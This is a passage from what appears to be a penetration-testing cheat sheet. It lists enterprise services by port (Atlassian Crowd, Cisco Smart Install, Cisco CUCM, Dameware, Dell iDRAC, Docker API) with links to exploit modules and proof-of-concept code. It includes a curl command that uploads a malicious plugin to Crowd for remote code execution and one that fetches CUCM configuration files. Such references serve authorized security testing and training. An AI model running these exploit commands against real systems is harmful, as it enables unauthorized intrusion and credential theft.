 {% embed url="https://www.rapid7.com/db/modules/exploit/linux/http/spark_unauth_rce" %}

### Atlassian Crowd

**Ports:** 4990\
**Exploit:**

```bash
curl -k -H "Content-Type: multipart/mixed" \ --form "file_cdl=@rce.jar" http://[HOST]:4990/crowd/admin/uploadplugin.action
```

{% embed url="https://packetstormsecurity.com/files/163810/Atlassian-Crowd-pdkinstall-Remote-Code-Execution.html" %}

### Cisco Smart Install

**Ports:** 4786\
**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/misc/cisco_smart_install" %}

{% embed url="https://github.com/frostbits-security/SIET" %}

### Cisco Unified Communications Manager

**Ports:** 6970\
**Exploit:**

```bash
curl http://[CUCM IP Address]:6970/ConfigFileCacheList.txt
```

{% embed url="https://github.com/trustedsec/SeeYouCM-Thief" %}

### Dameware

**Ports:** 6129\
**Exploit:**

{% embed url="https://www.tenable.com/security/research/tra-2019-43" %}

{% embed url="https://github.com/tenable/poc/blob/master/Solarwinds/Dameware/dwrcs_dwDrvInst_rce.py" %}

### Dell iDrac&#x20;

**Ports:** 443

**Exploit:**

{% embed url="https://www.rapid7.com/db/modules/auxiliary/scanner/http/dell_idrac" %}

### Docker API

**Ports:** 2375\
**Exploit:**
